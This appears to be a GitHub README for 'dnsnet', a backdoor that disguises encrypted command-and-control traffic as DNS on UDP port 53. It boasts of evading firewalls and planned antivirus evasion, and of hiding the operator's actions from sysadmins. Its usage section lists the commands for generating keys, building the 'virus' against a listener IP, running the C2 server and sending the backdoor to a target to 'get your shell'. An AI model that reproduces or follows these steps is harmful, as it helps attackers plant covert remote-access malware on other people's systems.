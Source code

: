 # dnsnet


# Current Version: AlphaV2

# Logo:
![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET Is a backdoor that uses encrypted "dns" to communicate with the command & control server.


DNSNET Uses udp port 53 to make itself look like dns traffic, this means that firewalls can't block this port (without losing dns rsolving) and i will be adding av evasion.

# "But why encrypted?" Answer:
If someone notices your actions, the sysadmin or whatever can't see what you were trying to do so your opsec will not be compromised

<img src=https://user-images.githubusercontent.com/72181445/155986263-d911e874-5ce2-4d99-a5d3-0c44ae65f9bc.png width=500 heigth=500></img>


# Update log:
Alpha: 10 times encryption and stabile server end

AlphaV2: Automatic reconnect if connection is lost and manual reset added by pressing ctrl + c on the server end, cryptography import problems solved

# In dev?: YES, This is the only project im working on currently

# How to use (REPLACE "Listener ip" with the c2 ip):
git clone https://github.com/R00tendo/dnsnet

cd dnsnet

apt install unrar

unrar e cryptography.rar

pip3 install termcolor

python3 key_generator.py 5 > keys

python3 virus_generator.py <Listener ip>

python3 server.py

and send the backdoor directory and get your shell
  
# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
 
